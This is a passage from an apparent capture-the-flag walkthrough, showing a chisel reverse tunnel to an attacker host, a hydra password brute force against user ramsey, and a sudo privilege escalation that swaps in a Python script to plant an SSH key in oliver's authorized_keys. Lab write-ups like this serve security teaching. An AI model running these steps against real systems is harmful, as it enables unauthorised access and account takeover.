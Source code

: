 ```bash
root@8b39a559b296:~# chmod +x chisel
chmod +x chisel
root@8b39a559b296:~# ./chisel client 10.17.87.131:9001 R:22:172.17.0.1:22
./chisel client 10.17.87.131:9001 R:22:172.17.0.1:22
2025/08/14 04:56:29 client: Connecting to ws://10.17.87.131:9001
2025/08/14 04:56:32 client: Connected (Latency 244.000475ms)
```

For confirmation :

<img width="1452" height="89" alt="image 10" src="https://github.com/user-attachments/assets/3ae0143b-fc85-43ad-b707-583c0ce2f4a6" />

Now, as we have valid username `ramsey`, we can brute force that user’s password with hydra.

<img width="1902" height="335" alt="image 11" src="https://github.com/user-attachments/assets/47159fe8-5e24-4a31-addb-e8e9f94c1986" />

Found user ramsey’s password.

Logged in to ramsey’s account via ssh

<img width="1615" height="431" alt="image 12" src="https://github.com/user-attachments/assets/9ae86f43-5d15-4058-aa40-7cdfed33cf6c" />

Grabbed user flag

<img width="1383" height="52" alt="image 13" src="https://github.com/user-attachments/assets/e8224acb-5ebb-42f2-95e5-45590a666e3b" />

---

### Shell As Oliver

Checking sudo privileges of user ramsey, shows ramsey can run a python script named `vuln.py` (which is in his own directory `/home/ramsey` )as user oliver.

<img width="1738" height="180" alt="image 14" src="https://github.com/user-attachments/assets/0887ee46-0a6d-48e5-9203-5284b7bbe6a2" />

As we don’t have direct write access to that `vuln.py` file, but we have full permission on the directory where it is stored. So I changed that file name to `vuln-bak.py` and created another file with the same name `vuln.py` and put following code in that file via nano editor.

<img width="1528" height="379" alt="image 15" src="https://github.com/user-attachments/assets/285d67c0-8e0c-4788-bca3-e9bffebac6b9" />

```bash
import os
os.system('mkdir /home/oliver/.ssh')
os.system('cp /home/ramsey/oliver.pub /home/oliver/.ssh/authorized_keys')
```

This code will create a directory `.ssh` on oliver’s home directory, then it will copy oliver.pub(Which we will generate just after this) file contents to `authorized_keys` file of that `.ssh` directory inside `/home/oliver` . Which will give us access to log into oliver’s account via ssh.

Generated ssh-keys

<img width="1736" height="503" alt="image 16" src="https://github.com/user-attachments/assets/7b4f56d4-0778-428c-ba80-6ea4bf5fb4b7" />
